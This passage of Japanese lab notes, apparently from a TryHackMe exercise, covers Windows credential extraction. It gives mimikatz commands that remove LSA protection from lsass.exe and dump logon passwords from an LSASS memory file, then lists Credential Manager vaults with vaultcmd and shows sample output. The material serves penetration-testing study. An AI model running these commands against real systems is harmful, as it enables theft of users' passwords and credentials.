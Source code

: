 ```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
```

```shell
# mimidrv ドライバをメモリにロードする
mimikatz # !+

# LSA保護を無効にする
mimikatz # !processprotect /process:lsass.exe /remove
```

### DMP ファイルを読む

タスクマネージャ等で出力した場合はバイナリなのでそのままでは読めない。

```shell
mimikatz # sekurlsa::minidump C:\Users\thm\AppData\Local\Temp\lsass.DMP
mimikatz # sekurlsa::logonPasswords
```

## Windows 資格情報マネージャー

4 カテゴリ

- Web 認証情報には、インターネット ブラウザーまたはその他のアプリケーションに保存されている認証の詳細が含まれる。
- Windows 資格情報には、 NTLM や Kerberos などの Windows 認証の詳細が含まれる。
- 汎用資格情報には、クリアテキストのユーザー名やパスワードなどの基本的な認証の詳細が含まれる。
- 証明書ベースの資格情報: 証明書に基づく認証の詳細。

認証の詳細はユーザーのフォルダーに保存され、Windows ユーザー アカウント間で共有されない。ただし、メモリにキャッシュされる。

```shell
# 資格情報マネージャーから利用可能な資格情報を一覧表示する
vaultcmd /list

Currently loaded vaults:
        Vault: Web Credentials
        Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        Vault: Windows Credentials
        Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
        Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault
```

```shell
# "Web Credentials"に保存された資格情報があるかどうかを確認
VaultCmd /listproperties:"Web Credentials"

Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
```
